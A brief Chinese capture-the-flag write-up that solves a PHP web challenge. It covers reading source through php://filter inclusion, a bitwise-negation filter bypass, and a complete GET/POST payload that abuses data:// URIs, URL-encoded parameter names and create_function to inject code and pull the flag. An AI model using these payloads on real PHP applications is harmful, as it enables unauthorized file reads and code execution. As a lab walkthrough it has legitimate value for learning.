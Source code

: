 

<img src="https://i-blog.csdnimg.cn/blog_migrate/9ea4fbaa00af095af832b19b6faf1e2b.png" alt="" style="max-height:177px; box-sizing:content-box;" />


去访问



<img src="https://i-blog.csdnimg.cn/blog_migrate/1fea22950bce995d0f35c9fad5800535.png" alt="" style="max-height:111px; box-sizing:content-box;" />


直接读取源代码

通过文件包含和伪协议实现读取

```cobol
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php);
 
然后这里过滤了很多
 
我们可以和无回显rce一样 取反操作实现
 
 
}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
```

所以最后的payload

```cobol
GET
 
?deb%75=aq%75a_is_c%75te%0a&file=data://text/plain,deb%75_deb%75_aq%75a&shan%61[]=1&p%61sswd[]=2&fl%61g[co%64e]=create_function&fl%61g[%61rg]=
}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
 
 
POST 
 
debu=1&file=2   //其他不需要是因为我们没有传入字母了
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7da1f53c3ae6085cfd0a872c1acef80a.png" alt="" style="max-height:684px; box-sizing:content-box;" />


然后可以发现获取到了flag